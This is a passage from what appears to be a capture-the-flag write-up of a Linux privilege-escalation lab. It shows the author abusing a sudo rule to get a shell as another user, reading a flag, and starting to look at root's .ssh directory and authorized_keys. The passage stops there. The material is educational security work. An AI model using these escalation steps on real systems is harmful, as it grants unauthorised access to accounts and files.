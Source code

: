 Then we note the **/bin/bash**: This is the path to the "bash" shell executable. Allowing user1 to run "/bin/bash" means they have the ability to start an interactive shell session. This could potentially grant them significant control over the system.

With this in mind, I now want to see if it will work. So I run the following command for user2 as user1:
```
sudo -u user2 /bin/bash

```
From the terminal, this seems to have worked since the CLI switched from:
```
user1@ng-894740-gettingstartedprivesc-jb8qw-c7f9799cb-bd827:
```
to this:
```
user2@ng-894740-gettingstartedprivesc-jb8qw-c7f9799cb-bd827:~$ 

```
Notice that we now have user2 access. So, once again, we try to read the _flag.txt_ file and manage to get the flag.
```
user2@ng-894740-gettingstartedprivesc-jb8qw-c7f9799cb-bd827:~$ ls
flag.txt
user2@ng-894740-gettingstartedprivesc-jb8qw-c7f9799cb-bd827:~$ cat flag.txt 
HTB{l473r4l_********_**_*******_u53r}

```
Ah great, so what, are we done? Or is there more we could do here? We have further instructions:
![chall blog](/images/privilege-escalation/PriviledgeEscalation0.jpg)
Now we try to see if we can be the **root** user for this machine, escalating our privileges even further. First I navigate to the root user folder using the following commands:
```
cd ../../
ls
cd root
```
Then I list all directories and this is the output I get:
```
user2@ng-894740-gettingstartedprivesc-jb8qw-c7f9799cb-bd827:/root$ ls -a
.  ..  .bash_history  .bashrc  .profile  .ssh  .viminfo  flag.txt

```
As you can see here, we have our _flag.txt_ file. I'm tempted to open it, and I do, but again, I get denied permission to do so. I then notice another interesting directory,**.ssh**. So I navigate to it and list its contents. 

The **.ssh** folder in a user's home directory on a Unix-like operating system that contains important files and directories related to SSH (Secure Shell) authentication and communication. 

**authorized_keys**: Contains a list of public keys authorized to access the user account using SSH key-based authentication. Each line in this file represents a separate public key. When a client (remote computer) attempts to connect to the user account, the server checks if the client's public key matches any of the keys listed in this file. If there's a match, the client is granted access without needing to enter a password.
